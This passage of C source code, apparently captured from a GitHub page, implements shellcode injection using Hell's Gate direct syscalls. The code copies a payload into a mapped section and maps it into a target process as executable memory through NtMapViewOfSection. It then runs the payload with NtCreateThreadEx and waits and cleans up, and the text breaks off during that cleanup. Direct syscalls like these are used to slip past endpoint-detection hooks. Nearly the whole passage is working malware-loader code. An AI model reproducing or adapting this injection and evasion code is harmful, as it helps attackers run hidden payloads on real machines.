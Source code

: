 ```

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

	//--------------------------------------------------------------------------
    // Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

	//--------------------------------------------------------------------------
        // Allocating remote map view
        if (!bLocal) {

          HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
          if ((STATUS = HellDescent(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
            printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
            return FALSE;
          }

          printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

        }

	//--------------------------------------------------------------------------
    // Executing the payload via thread creation
    pExecAddress = pRemoteAddress;
	if (bLocal) {
		pExecAddress = pLocalAddress;
	}
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pExecAddress);
	HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pExecAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

	//--------------------------------------------------------------------------
    // Waiting for the thread to finish
	HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
	if ((STATUS = HellDescent(hThread, FALSE, NULL)) != 0) {
		printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Unmapping the local view
	HellsGate(g_Sys.NtUnmapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

    // Closing the section handle
	HellsGate(g_Sys.NtClose.wSystemCall);
	if ((STATUS = HellDescent(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
```
